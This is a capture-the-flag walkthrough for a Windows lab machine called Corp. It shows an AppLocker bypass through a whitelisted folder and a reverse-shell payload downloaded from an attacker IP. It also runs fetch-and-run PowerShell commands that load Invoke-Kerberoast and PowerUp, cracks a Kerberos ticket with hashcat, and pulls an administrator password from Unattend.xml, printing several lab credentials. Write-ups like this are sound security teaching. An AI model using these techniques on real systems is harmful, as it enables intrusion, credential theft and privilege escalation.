

corp
Corp
Bypass Windows Applocker and escalate your privileges. You will learn about kerberoasting, evading AV, bypassing applocker and escalating your privileges on a Windows system.
Firstly We RDP into the machine.
Username: corp\dark
Password: _QuejVudId6
Then we create a msfvenom reverse shell and send it to machine using the Target's Internet Explorer Or Powershell
As we are regular user, we cannot change trsuted site settings. Its blocking the download. Only option is to use Powershell.

Invoke-WebRequest -Uri http://10.11.72.31/SecurityUpdate.exe -OutFile SecurityUpdate.exe

Note: Powershell is started with -ep bypass to bypass execution policy. Still the program gets blocked.
We try to run the program using explorer. We got the following error.

AppLocker is an application whitelisting technology introduced with Windows 7. It allows restricting which programs users can execute based on the programs path, publisher and hash.
You will have noticed with the deployed machine, you are unable to execute your own binaries and certain functions on the system will be restricted.
There are many ways to bypass AppLocker.
If AppLocker is configured with default AppLocker rules, we can bypass it by placing our executable in the following directory:
C:\Windows\System32\spool\drivers\color - This is whitelisted by default.
Go ahead and use Powershell to download an executable of your choice locally, place it the whitelisted directory and execute it.
Now, we move to the whitelist directory and download our payload.
Hooray! We are able to execute the program now.
But However, the now that we have bypassed Applocker. The Anti Virus is blocking the executible.
Even Running with Explorer gives the same error.
Note: Just like Linux bash, Windows powershell saves all previous commands into a file called ConsoleHost_history. This is located at %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt

Note: We have to open with Run (Win + R) or in CMD.exe else in Powershell we need to specify full path instead of "%userprofile%

We can find the flag in the history.
We move on to next task.
Kerberos is the authentication system for Windows and Active Directory networks. There are many attacks against Kerberos, in this room we will use a Powershell script to request a service ticket for an account and acquire a ticket hash. We can then crack this hash to get access to another user account!
Lets first enumerate Windows. If we run setspn -T medin -Q */* we can extract all accounts in the SPN.
SPN is the Service Principal Name, and is the mapping between service and account.
setspn -T medin -Q */*
Note: Runs on both cmd and powershell

Now we have seen there is an SPN for a user(fela), we can use Invoke-Kerberoast and get a ticket.
Lets first get the Powershell Invoke-Kerberoast script.
iex(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Kerberoast.ps1')
Now lets load this into memory: Invoke-Kerberoast -OutputFormat hashcat |fl
You should get a SPN ticket.
Note: The Target machine was unable to connect to github so i copied the raw data from github to ca local kerberos.txt file and hosted it using python from the attacker machine.

Lets use hashcat to bruteforce this password. The type of hash we're cracking is Kerberos 5 TGS-REP etype 23 and the hashcat code for this is 13100.
hashcat -m 13100 -a 0 hash.txt wordlist --force
We gcrack the password. The credentials are
Username: fela
Password: rubenF124
Now we RDP into the machine with the new user. The flag is on the desktop.
Privilege Escalation
We will use a PowerShell enumeration script to examine the Windows machine. We can then determine the best way to get Administrator access.
We will run PowerUp.ps1 for the enumeration.
Lets load PowerUp1.ps1 into memory.
iex(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellEmpire/PowerTools/master/PowerUp/PowerUp.ps1')
Invoke-AllChecks
The script has identified several ways to get Administrator access. The first being to bypassUAC and the second is UnattendedPath. We will be exploiting the UnattendPath way.
"Unattended Setup is the method by which original equipment manufacturers (OEMs), corporations, and other users install Windows NT in unattended mode."

It is also where users passwords are stored in base64. Navigate to C:\Windows\Panther\Unattend\Unattended.xml.

Now we have the Administrator password in base64 format. We will decode it to get Admin credentials.

Note: We decoded it in powershell itself. We could have decoded in kali machine. But the above works if certutil.exe is installed.

New Credentials found:
Username: Administrator
Password: tqjJpEX9Qv8ybKI3yHcc=L!5e(!wW;$T
We RDP into the machine as Administrator and get the root flag.
Thanks!!